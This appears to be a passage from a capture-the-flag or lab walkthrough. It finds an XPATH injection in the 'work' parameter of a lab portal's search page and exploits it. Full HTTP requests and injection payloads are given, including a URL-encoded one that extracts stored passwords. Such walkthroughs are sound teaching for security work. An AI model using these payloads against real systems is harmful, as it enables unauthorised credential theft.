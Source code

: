 We can intercept the response of the `cars` filter using a proxy like `Burp Suite`, and forward the request to the repeater tab.

We notice that when we input anything other than `bike` or `car` in the `work` parameter, the response displays `XML Error; No asdas entity found`.

```
GET /portal.php?work=test&action=search HTTP/1.1
Host: 192.168.120.57
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4pflsuvt1i0p075abblor609is
Upgrade-Insecure-Requests: 1
```

The response:

```
</tr>
............
XML Error; No test entity found
<tr  height="40">
............
```

### XPATH Injection

The previous error leads us to believe an XPATH Injection is a viable attack worth testing.

When passing `')] | //user/*[contains(*,'` in the `work` parameter (found from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md)), the response displays 6 empty Boxes.

Let's attempt to fuzz this parameter with the following payload:

```
%27)%5D/password%20%7C%20a%5Bcontains(a,%27
```

We insert the payload into the `work` parameter

```
GET /portal.php?work=%27)%5D/password%20%7C%20a%5Bcontains(a,%27&action=search HTTP/1.1
Host: 192.168.120.57
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4pflsuvt1i0p075abblor609is
Upgrade-Insecure-Requests: 1
```

This reveals a list of passwords that do not have any usernames associated with them.
